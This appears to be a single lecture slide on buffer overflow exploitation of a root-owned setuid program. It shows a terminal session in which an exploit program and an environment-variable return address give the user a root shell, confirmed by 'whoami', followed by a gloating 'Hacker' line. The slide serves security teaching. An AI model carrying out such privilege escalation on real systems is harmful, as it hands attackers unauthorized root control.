

If the vulnerable program is owned by root with the setuid permission set, we can access the root account.
Trial
[mhwong]$ ./exploit4 768
using address: 0xbffff9d8
[mhwong]$ ./vulnerable $RET
bash# whoami
root
bash#
Hacker: “Ha! Ha! Ha! …I am the root now!!”
24